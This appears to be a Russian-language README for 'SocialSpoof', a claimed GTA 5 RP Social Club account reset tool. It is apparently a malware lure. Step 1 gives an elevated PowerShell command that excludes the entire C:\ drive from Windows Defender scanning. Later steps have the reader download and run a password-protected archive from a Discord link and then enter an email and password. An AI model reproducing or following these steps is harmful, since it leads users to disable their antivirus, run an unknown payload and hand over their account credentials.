 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️
<summary style="color: blue; font-weight: bold;">Сделайте расширение системных файлов Rage Mp</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

Шаг 2 📥

Как только выполнили расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎

                                      🔧Не забудьте выполнить инструкцию 
